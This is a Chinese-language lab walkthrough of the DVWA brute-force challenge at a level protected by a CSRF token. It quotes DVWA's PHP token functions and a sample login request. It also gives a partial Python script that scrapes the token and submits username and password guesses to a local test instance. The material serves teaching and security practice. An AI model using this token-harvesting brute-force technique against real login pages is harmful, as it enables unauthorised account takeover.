 这一关增加了 token 的检测，从如下代码：

```php
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

Token 的值来源于 index.php，访问 index.php 查看源码信息，找到如下 token 的位置：

```php
require_once DVWA_WEB_PAGE_TO_ROOT . 'dvwa/includes/dvwaPage.inc.php';
```

追踪 dvwaPage.inc.php 找到 token 相关函数的定义：

```php
function checkToken( $user_token, $session_token, $returnURL ) {  # 校验 token
    if( $user_token !== $session_token || !isset( $session_token ) ) {
        dvwaMessagePush( 'CSRF token is incorrect' );
        dvwaRedirect( $returnURL );
    }
}

function generateSessionToken() {  # 当前时间的 md5 值作为 token
    if( isset( $_SESSION[ 'session_token' ] ) ) {
        destroySessionToken();
    }
    $_SESSION[ 'session_token' ] = md5( uniqid() );
}

function destroySessionToken() {  # 销毁 token
    unset( $_SESSION[ 'session_token' ] );
}

function tokenField() {  # 将 token 输出到 input 框中
    return "<input type='hidden' name='user_token' value='{$_SESSION[ 'session_token' ]}' />";
}
```

然后登陆的数据包如下：

```http
GET /vulnerabilities/brute/index.php?username=admin&password=password&Login=Login&user_token={token} HTTP/1.1
```

需要在 user_token 的后面跟上之前从源码中获取到的 token 值，这是一个登陆的完整流程，下面分别尝试使用 Python 脚本 和 Burpsuite 来演示一下这个爆破。

### Python

```python
import os
import re
import sys
import requests

def get_token(headers):
    index_url = 'http://127.0.0.1:8888/vulnerabilities/brute/index.php'
    index_html = requests.get(url=index_url, headers=headers, timeout=3).text
    token_pattern = re.compile(r"name='user_token' value='(.*?)'")
    token = token_pattern.findall(index_html)[0]
    return token

def brute_with_token(uname, passwd, headers):
    token = get_token(headers)
    brute_url = f'http://127.0.0.1:8888/vulnerabilities/brute/index.php?username={uname}&password={passwd}&Login=Login&user_token={token}'
    r = requests.get(url=brute_url, headers=headers)
    print(f'{token}:{uname}:{passwd}', end='\n')

```